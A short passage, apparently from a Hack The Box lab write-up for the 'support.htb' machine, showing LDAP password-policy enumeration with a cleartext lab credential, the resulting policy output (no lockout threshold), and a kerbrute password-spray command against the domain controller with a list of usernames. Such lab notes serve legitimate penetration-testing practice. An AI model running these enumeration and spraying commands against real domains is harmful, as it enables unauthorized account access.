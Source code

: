 # Password policy enumeration
```$ python enum_policy.py support.htb 'support\support' 'Ironside47pleasure40Watchful'```
```
##################################
# Domain name: DC=support,DC=htb #
##################################
-------------------------------
[b'[LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=support,DC=htb;0]']
lockoutThreshold: [b'0']
lockoutDuration: [b'-18000000000']
minPwdAge: [b'-864000000000']
maxPwdAge: [b'-9223372036854775808']
minPwdLength: [b'7']
modifiedCount: [b'1']
```
# Password Spray

```$ kerbrute passwordspray -d support.htb --dc 10.10.11.174 loot/users.txt 'Ironside47pleasure40Watchful'```
```loot/users.txt```
```
Administrator
Guest
krbtgt
ldap
support
ford.victoria
```
